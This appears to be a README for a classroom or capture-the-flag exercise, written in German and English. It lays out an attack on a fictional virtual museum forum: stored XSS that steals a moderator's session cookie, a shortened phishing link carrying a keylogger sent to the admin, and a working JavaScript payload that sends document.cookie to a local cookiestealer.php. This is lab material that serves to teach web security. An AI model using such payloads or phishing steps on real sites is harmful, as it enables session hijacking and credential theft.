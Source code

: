 # Unser Szenario:

Es existiert ein virtuelles Museum mit allerhand Berühmtheiten aus dem IT-Bereich. Jeder User kann dieses besuchen ohne einen Account zu haben. Zusätzlich gibt es noch ein Forum, wo Interaktion zwischen den Usern und Moderatoren stattfindet. Des weiteren hat das Museum bisher unveröffentlichte Dokumente zu diesen Personen (Tagebuchinhalte, unbekannte Forschungen, etc...) in separaten, für die Öffentlichkeit nicht zugänglichen Bereichen (Kisten) gespeichert.

## 1. Angriffsschritt:

Der Angriff basiert darauf, sich die Identität eines Moderators zu stehlen. Dazu postet der Angreifer einen Beitrag im Forum, worin sich ein XSS-Skript befindet, welches sofort ausgeführt wird, sobal die Seite läd. Sobald dies ein Moderator getan hat, erlangt der Angreifer dessen Session-Cookie. 

## 2. Angriffsschritt:

Mit Hilfe des Session-Cookies postet der Angreifer im Namen des Moderators eine Anfrage in einem Unterforum, welches nur zugänglich für Moderatoren und den Admin ist. In dieser Anfrage geht es um eine geheime Information aus der Kiste. Der Post sieht ungefähr so aus: "Lieber Admin, ich brauche Info xyz aus folgender Kiste: [Schadhafter Link] "
In diesem Link ist ein Keylogger enthalten, damit dies nicht auffällt wird der Link mit einem Programm (zB. bitly) gekürzt. Da dies auch ein privater Forumsbereich ist, schöpft der Admin keinen Verdacht und öffnet diesen Link. Er wird dann zur Kiste weitergeleitet & zur Passworteingabe aufgefordert. Nachdem dieses eingegeben wurde liest der Admin, dass diese Info nur für Admins bestimmt ist und weist die Anfrage zurück. Allerdings hat der ANgreifer nun das Kistenpasswort und erlangt die Info -> Challenge done

## Setup
1. Creation of "cookiestealer.php". Contains information of transfer to which location. This can be every website. For realistic scenario it should be the website from where the attack is happening.
2. Creation of "log.txt" for storing the cookie information.

## Attack for session cookie
1. Starting server with php -S 127.0.0.1:4859 (":4859") is any port
2. Inserting in "post_erstellen.html" in input field "Text:" JS code (without JS tags) --> document.location = "http://127.0.0.1:4859/cookiestealer.php?c=" + document.cookie;document.cookie = "username=Null Byte";document.write(document.cookie);


